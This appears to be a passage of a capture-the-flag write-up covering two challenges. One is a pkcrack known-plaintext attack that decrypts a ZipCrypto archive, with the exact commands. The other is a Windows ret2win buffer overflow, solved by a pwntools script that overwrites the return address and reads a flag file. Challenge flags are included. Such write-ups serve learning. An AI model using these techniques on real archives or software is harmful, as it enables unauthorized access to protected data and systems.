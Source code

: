 PkCrack can be found here: https://www.unix-ag.uni-kl.de/~conrad/krypto/pkcrack.html

Read the README to determine how to get it for your machine. The provided `Tax_Ret_Form_Blank.pdf` serves as our known plaintext to perform the attack. We can compress this to get our unencrypted zip that we need to run the tool.

One thing that I got stuck on was how to use pkcrack correctly, and that was because I'm illiterate and didn't bother reading the README which explained exactly what to do. The main thing I forgot is that the unencrypted zip has to be compressed with the same method used for the encrypted file. If you look back at the above archive details, on the method line you'll see it is store, so we need to compress our plaintext with that method, as is done by the following:

```
7z a -mx0 ./Tax_Ret_Form_Blank.zip Tax_Ret_Form_Blank.pdf
```

Finally, we run PkCrack to get an unencrypted version. You can read the help for pkcrack if you need an explanation of what these flags are.
```
pkcrack-1.2.2/src/pkcrack -c Tax_Ret_Form_Nov_2021.pdf -p Tax_Ret_Form_Blank.pdf -C Tax_Ret_Form_Nov_2021.zip -P Tax_Ret_Form_Blank.zip -d cracked.zip
```

unzip `cracked.zip` and view the pdf to get the flag which is in one of the form fields

`flag{1f_y0u_u53_z1pcryp70_4ny0n3_c4n_aud17_y0u}`

# baby windows (Pwn)
## Challenge Description
Pwn your first Windows binary! We made it easy and are providing all the code so you can get points for learning to use a new set of tools.

## Solution
we are provided source for the entire thing, and there is a simple buffer overflow with gets, and in the dll provided there is a win function.

Simple ret2win challenge, but in Windows! I downloaded immunity debugger, threw in a string to figure out the buffer length to overwrite eip (note 32-bit challenge). then I grabbed the address of the win function from the dll using objdump and wrote a simple solve script.

Honestly not too bad, didn't take too much troubleshooting since I just assumed there was no PIE and vaguely remembered something about how dlls are loaded that made me think I could just grab the address straight from the dll.

The part that took me the most debugging time was actually figuring out how to get output from the script, which I eventually got to work by simple turning on debug log level in pwntools. I assume the normal output was breaking because of how Windows does carriage returns then newlines.

Solve script (download [here](assets/babywindows_solve.py)):
```py
from pwn import *

# I think the output is being f'd up by the carriage returns that windows has,
# but the debug output prints the bytes recieved just fine so we'll use that to see what's up
context.log_level = 'DEBUG'

p = remote("win.chal.csaw.io", 7777)
p.recvuntil(b'> ');
p.sendline(b'A'*512 + p32(0x62101661))

p.sendline(b'type .\\chal\\flag.txt')
print(p.recvline())
p.interactive()
```

`flag{Wh4t_d0_y0u_w4n7_t0_pwn_t0d4y?}`

